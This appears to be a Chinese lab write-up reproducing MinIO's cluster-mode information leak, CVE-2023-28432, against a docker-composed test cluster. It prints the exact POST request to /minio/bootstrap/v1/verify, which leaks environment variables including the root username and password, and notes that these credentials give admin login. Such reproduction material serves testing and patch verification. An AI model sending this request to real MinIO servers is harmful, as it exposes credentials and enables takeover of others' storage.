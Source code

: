 # MinIO集群模式信息泄露漏洞（CVE-2023-28432）

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_SECRET_KEY`和`MINIO_ROOT_PASSWORD`。

参考链接：

- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>

## 漏洞环境

执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```
docker compose up -d
```

集群启动后，访问`http://your-ip:9001`可以查看Web管理页面，访问`http://your-ip:9000`是API服务。

## 漏洞复现

这个漏洞存在于API节点`http://your-ip:9000/minio/bootstrap/v1/verify`上，发送如下数据包即可查看泄露的环境变量：

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](1.png)

可见，其中包含`MINIO_ROOT_USER`和`MINIO_ROOT_PASSWORD`。使用这个账号密码，即可成功登录管理后台：

![](2.png)
